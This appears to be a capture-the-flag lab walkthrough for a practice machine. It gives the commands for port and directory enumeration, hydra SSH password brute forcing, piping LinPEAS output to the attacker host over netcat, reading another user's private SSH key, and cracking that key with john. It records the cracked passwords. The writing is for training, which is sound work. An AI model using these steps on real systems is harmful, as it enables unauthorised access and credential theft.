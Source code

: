 # Basic Pentesting

This is a machine that allows you to practise web app hacking and privilege escalation

---
### Active Machine Information

Title: `Web App Test`

Target IP: `10.10.0.193`

Host IP: `10.10.14.20`

---

## Web App Testing and Privilege Escalation

In these set of tasks you'll learn the following:

- brute forcing 
- hash cracking 
- service enumeration
- Linux Enumeration

---

```bash
nmap -sC -sV -oN nmap 10.10.0.193
```

> - `22/tcp` OpenSSH
> - `80/tcp` Apache
> - `138/tcp` Samba
> - `445/tcp` Samba
> - `8009/tcp` Apache
> - `8080/tcp` Apache

Result: [nmap](nmap)

---

```bash
curl -o curl http://10.10.0.193
```

> `<!-- Check our dev note section if you need to know what to work on. -->`

Result: [curl](curl)

---

```bash
gobuster dir -u http://10.10.0.193/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster -t 40
```

> `/development          (Status: 301) [Size: 316] [--> http://10.10.0.193/development/]`

Result: [gobuster](gobuster)

---

```bash
curl -o curl-development http://10.10.0.193/development/
```

> `href="dev.txt"`

> `href="j.txt"`

Result: [curl-development](curl-development)

```bash
curl -o curl-dev.txt http://10.10.0.193/development/dev.txt
```

Result: [curl-dev.txt](curl-dev.txt)

```bash
curl -o curl-j.txt http://10.10.0.193/development/j.txt
```

Result: [curl-j.txt](curl-j.txt)

---

```bash
enum4linux 10.10.0.193 | tee enum4linux
```

> `S-1-22-1-1000 Unix User\kay (Local User)`

> `S-1-22-1-1001 Unix User\jan (Local User)`

Result: [enum4linux](enum4linux)

---

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt -o hydra ssh://10.10.0.193
```

> `[22][ssh] host: 10.10.0.193   login: jan   password: armando`

Result: [hydra](hydra)

---

Using: [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

Host: 

```bash
scp /opt/linpeas/linpeas.sh jan@10.10.0.93:/dev/shm
```

```bash
nc -lvnp 9000 | tee linpeas
```

Using: `jan:armando`

```bash
ssh jan@10.10.0.93
```

Target:

```bash
cd /dev/shm

./linpeas.sh -a -e | nc 10.10.14.20 9000
```

> `══╣ Possible private SSH keys were found! /home/kay/.ssh/id_rsa`

Result: [linpeas](linpeas)

---

Target:

```bash
cat /home/kay/.ssh/id_rsa
```

- Copy

Host:

```bash
cat > kay_id_rsa
```

- Paste
- `ctrl` + `d` (2x)

```bash
ssh2john kay_id_rsa > hash
```

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

> `beeswax (kay_id_rsa)`

---

```bash
chmod 600 kay_id_rsa
```

Using: `beeswax`

```bash
ssh -i kay_id_rsa kay@10.10.0.193
```

```bash
cat pass.bak
```

